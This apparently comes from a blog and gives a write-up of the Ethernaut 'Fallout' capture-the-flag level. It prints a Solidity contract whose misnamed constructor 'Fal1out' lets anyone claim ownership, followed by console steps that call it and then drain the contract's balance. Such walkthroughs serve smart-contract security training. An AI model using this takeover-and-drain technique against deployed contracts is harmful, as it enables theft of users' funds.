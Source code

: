 ```yaml
---
layout: post
title: Ethernaut - 2.Fallout
date:  2022-08-24
tags: ethernaut
---
```


### Difficulty: 🌕🌑🌑🌑🌑
### Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

### Writeup
1. Get new instance
2. `await contract.owner()` to check contract owner, it return address 0x0000000000000000000000000000000000000000.
3. Use `await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())` to check balance, it return zero.
4. `await contract.Fal1out({ value: toWei("0.00001") })`
5. Call function `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
6. `await contract.collectAllocations()`
7. Submit instance ξ( ✿＞◡❛)